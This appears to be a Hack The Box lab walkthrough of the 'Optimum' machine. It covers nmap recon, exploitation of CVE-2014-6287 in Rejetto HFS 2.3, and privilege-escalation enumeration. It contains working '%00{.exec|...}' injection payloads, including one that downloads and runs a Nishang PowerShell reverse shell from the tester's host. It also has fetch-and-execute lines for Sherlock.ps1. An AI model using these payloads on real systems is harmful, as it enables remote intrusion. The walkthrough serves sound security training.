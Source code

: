 # Hack The Box - Optimum

```CSS
Machine IP: 10.10.10.8

Vulnerabilities:
  - Rejetto HTTP File Server 2.3: CVE-2014-6287 (w/o MetaSploit)
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.8 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.8 -oN deep.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP #80
![image](https://user-images.githubusercontent.com/83878909/235110690-0249d8ca-39e8-42c0-b237-2aab3e219a96.png)

### HTTP File Server 2.3
  - CVE-2014-6287 : The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### Exploit
![image](https://user-images.githubusercontent.com/83878909/236133911-37a8b4c2-129c-4215-81f0-4b67efba6033.png)

#### Command Execution

```CSS
▶ tcpdump -i tun0
```
```CSS
%00{.exec|ping 10.10.14.21.}
```
![image](https://user-images.githubusercontent.com/83878909/236135355-c044f521-5cea-4d4c-abb3-95aafa954d6c.png)
![image](https://user-images.githubusercontent.com/83878909/236134669-802324a7-fbd7-4cf3-9cd8-6bc4c8336c04.png)

#### Reverse Shell (Nishang)

- `Invoke-PowerShellTcp.ps1`
![image](https://user-images.githubusercontent.com/83878909/236135960-4b5a97fd-8c54-4847-ac0e-f6e6c1dbed23.png)

  - Copy and Paste the line of code to the bottom of the sciript.
  - Edit the code.
![image](https://user-images.githubusercontent.com/83878909/236136805-0bc1601e-7bad-4b11-bad7-3206cf2f3dcd.png)
![image](https://user-images.githubusercontent.com/83878909/236137400-fad06366-6e40-4a1f-b0de-1f1d8831b9ff.png)

  - Upload the `Nishang` script.
  - Start a reverse `Netcat` listener.

```CSS
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.21:8000/Invoke-PowerShellTcp.ps1').}
```
![image](https://user-images.githubusercontent.com/83878909/236139893-93d6cafd-91f1-4da8-94cc-4c2a5ca6079b.png)
![image](https://user-images.githubusercontent.com/83878909/236139759-484a70c3-ca74-4e01-9096-50befb2d0dc6.png)

  - Target system information.
```CSS
PS C:\Users\kostas\Desktop>systeminfo                                                
```
![image](https://user-images.githubusercontent.com/83878909/236140832-cb67ae27-8fb1-42cf-8dcc-b03aca12c96c.png)

## Privilege Escalation

### WinPEAS
  - Start SMB server.
```CSS
▶ sudo impacket-smbserver share . -smb2support
```
  - Copy `winPEASx64.exe` to optimum.
```CSS
▶ copy \\10.10.14.21\share\winPEASx64.exe .
```
![image](https://user-images.githubusercontent.com/83878909/236153111-422fdf8f-75cd-46dd-83f1-ab8a88d517ad.png)

  - Execute `winPEASx64.exe`.
```CSS
PS C:\Users\kostas\desktop> ./winPEASx64.exe           
```
![image](https://user-images.githubusercontent.com/83878909/236154915-b4378173-3efa-4131-b365-dd54291fe8a2.png)
No useful information was found.

## Sherlock
  - Python Server
```CSS
▶ python -m http.server
```
![image](https://user-images.githubusercontent.com/83878909/236175398-fe8dee40-3e4d-492d-938d-9d32b5f117da.png)

  - Edit, Upload and Run: `Sherlock.ps1`.
  - Add the line `Find-AllVulns` at the end of the script to call this function.

![image](https://user-images.githubusercontent.com/83878909/236176477-6d64ec41-f579-4af4-bdb5-8986fd93981f.png)

```
PS C:\Users\kostas\desktop> IEX(New-Object Net.Webclient).downloadString('http://10.10.14.21:8000/Sherlock.ps1')
```
